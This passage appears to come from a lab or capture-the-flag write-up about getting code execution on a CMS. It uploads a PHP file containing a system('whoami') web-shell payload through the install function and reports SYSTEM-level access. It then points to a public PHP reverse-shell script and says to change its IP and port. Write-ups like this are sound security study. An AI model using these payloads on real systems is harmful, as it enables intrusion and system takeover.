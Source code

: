 Let’s try a simple payload:
```php
<?php system('whoami');?>
```
Write this to a PHP file, upload it, and click **Install**. 
![image](./images/cms-rce.png)
The exploit succeeded! We got `nt authority\system`, which grants the highest privilege on the system.
### Reverse Shell
For a reverse shell, I used this exploit:
- https://github.com/ivan-sincek/php-reverse-shell
Modify port and IP and repeat the steps: